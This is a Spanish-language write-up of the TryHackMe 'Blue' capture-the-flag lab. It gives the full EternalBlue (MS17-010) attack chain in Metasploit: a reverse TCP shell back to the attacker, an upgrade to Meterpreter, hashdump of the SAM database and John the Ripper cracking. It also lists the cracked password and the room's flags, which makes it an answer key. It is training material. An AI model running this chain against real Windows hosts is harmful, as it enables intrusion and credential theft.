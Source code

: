 # Blue

Blue

![image.png](./imagenes/Blue/image.png)

Maquinas que vamos a usar Kali Linux y https://tryhackme.com/room/blue

Mi IP: `10.21.203.172`

```bash
ifconfig
```

![image.png](./imagenes/Blue/57e7afd7-2588-4e50-9228-14660e941a5f.png)

IP maquina victima: `10.10.153.192`

![image.png](./imagenes/Blue/image%201.png)

---

- Hacemos una enumeración de puertos
    
    ```bash
    sudo nmap -p- -sS -sV -sC --open -min-rate 5000 -n -vvv -Pn 10.10.153.192
    ```
    
    ![image.png](./imagenes/Blue/image%202.png)
    
    Nos llama la atención el puerto “445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Professional 7601 Service Pack 1 microsoft-ds” Ya que es un candidato a la vulnerabilidad EternalBlue.
    
- Vamos a ver si es vulnerable
    
    ```bash
    nmap --script smb-vuln-ms17-010 -p445 10.10.153.192
    ```
    
    ![image.png](./imagenes/Blue/image%203.png)
    
    Vemos que es vulnerable .
    
- Vamos a usar Metasploit para aprovechar la vulnerabilidad.
    - Buscamos la vulnerabilidad por el CVE
        
        `search CVE:CVE-2017-0143`
        
        ![image.png](./imagenes/Blue/image%204.png)
        
    
    - Usamos la opción 2 y rellenamos los datos que sean necesarios en el exploit.
        
        `use 2`
        
        `show options`
        
        ![image.png](./imagenes/Blue/image%205.png)
        
        `set payload windows/x64/shell/reverse_tcp`
        
        `set RHOSTS 10.10.153.192
         set LHOST 10.21.203.172`
        
        `run`
        
        ![image.png](./imagenes/Blue/image%206.png)
        
        ![image.png](./imagenes/Blue/image%207.png)
        
        **¡¡OJO!! Esta maquina falla mucho si fala repetidamente el exploit quizás debas apagar la maquina victima y volverla a encender.**
        
    - Pulsamos `CTRL+Z` para pasar la sesión a **background**.
    
    - Vamos a convertir la sesión de shell en una sesión Meterpreter.
        
        `use post/multi/manage/shell_to_meterpreter`
        
    - Miramos las opciones
        
        `show options`
        
        ![image.png](./imagenes/Blue/image%208.png)
        

- Miramos la ID de sesion que tenemos en background.
    
    `sessions -l`
    
    ![image.png](./imagenes/Blue/image%209.png)
    

- Introducimos el dato de SESSION que necesitábamos
    
    `set SESSION 1`
    
    ![image.png](./imagenes/Blue/image%2010.png)
    
- Lanzamos el modulo
    
    `run`
    
    ![image.png](./imagenes/Blue/image%2011.png)
    
- Si volvemos a listar las sesión activas veremos que ahora tenemos 2 y además la nueva sesión somos **NT AUTHORITY\SYSTEM**
    
    `sessions -l`
    
    ![image.png](./imagenes/Blue/image%2012.png)
    

- Entramos en la nueva sesión de meterpreter.
    
    `sessions -i 2`
    
    ![image.png](./imagenes/Blue/image%2013.png)
    

- Miramos que usuario está ejecutando tu sesión actual
    
    `getuid`
    
    ![image.png](./imagenes/Blue/image%2014.png)
    

- Extraemos los hashes de contraseñas almacenados en la base SAM (Security Account Manager) de Windows.
    
    `hashdump`
    
    ![image.png](./imagenes/Blue/image%2015.png)
    

- Copiamos el hash de Jon en un archivo llamado jon.hash
    
    ```bash
    nano jon.hash
    ```
    
    ![image.png](./imagenes/Blue/image%2016.png)
    
    ![image.png](./imagenes/Blue/image%2017.png)
    

- Vamos a usar John the Ripper para descifrar la contraseña del hash.
    
    ```bash
    john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt jon.hash 
    ```
    
    ![image.png](./imagenes/Blue/image%2018.png)
    
    Contraseña: `alqfna22`
    

- Volvemos a la sesión de meterpreter que teníamos abierta. y Cambiamos la shell por una del sistema.
    
    `shell`
    
    ![image.png](./imagenes/Blue/image%2019.png)
    

- Flag1 que esta en la raíz del sistema: `C:\`
    
    ![image.png](./imagenes/Blue/image%2020.png)
    
    ![image.png](./imagenes/Blue/image%2021.png)
    
    `flag{access_the_machine}`
    
- Flag2 esta en la carpeta donde *se almacenan las contraseñas dentro de Windows: `C:\Windows\System32\config`*
    
    ![image.png](./imagenes/Blue/image%2022.png)
    
    flag{sam_database_elevated_access}
    
- Flag3 esta en `C:\Users\Jon\Documents`
    
    ![image.png](./imagenes/Blue/image%2023.png)
    
    `flag{admin_documents_can_be_valuable}`